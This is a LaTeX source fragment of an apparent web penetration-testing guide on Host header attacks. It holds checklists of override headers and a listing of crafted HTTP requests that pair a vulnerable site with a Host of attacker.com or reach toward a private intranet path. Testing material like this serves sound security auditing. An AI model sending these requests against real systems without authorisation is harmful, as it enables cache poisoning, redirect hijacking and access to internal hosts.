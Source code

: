 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Checklist}
\begin{checklistbox}
 Test X-Forwarded-Host
\end{checklistbox}
\begin{checklistbox}
 Test X-Host
\end{checklistbox}
\begin{checklistbox}
 Test X-Forwarded-Server
\end{checklistbox}
\begin{checklistbox}
 Test X-HTTP-Host-Override
\end{checklistbox}
\begin{checklistbox}
 Test Forwarded header
\end{checklistbox}
\begin{checklistbox}
 Check if any header overrides Host
\end{checklistbox}

\section{Ambiguous Request Tests}

\subsection{Testing Techniques}
\begin{lstlisting}[caption=Ambiguous Request Tests]
# Absolute URL method
GET https://vulnerable.com/ HTTP/1.1
Host: attacker.com

# Line wrapping (indented header)
GET / HTTP/1.1
    Host: attacker.com
Host: vulnerable.com

# Protocol variations
GET http://vulnerable.com/ HTTP/1.1
Host: attacker.com

# Malformed request line
GET @private-intranet/example HTTP/1.1
\end{lstlisting}

\subsection{Checklist}
\begin{checklistbox}
 Test absolute URL method
\end{checklistbox}
\begin{checklistbox}
 Test line wrapping with indented headers
\end{checklistbox}
\begin{checklistbox}
 Test different protocols (http:// vs https://)
\end{checklistbox}
\begin{checklistbox}
 Test malformed request line (@ symbol)
\end{checklistbox}
\begin{checklistbox}
 Observe differences between front-end and back-end processing
\end{checklistbox}
\end{document}
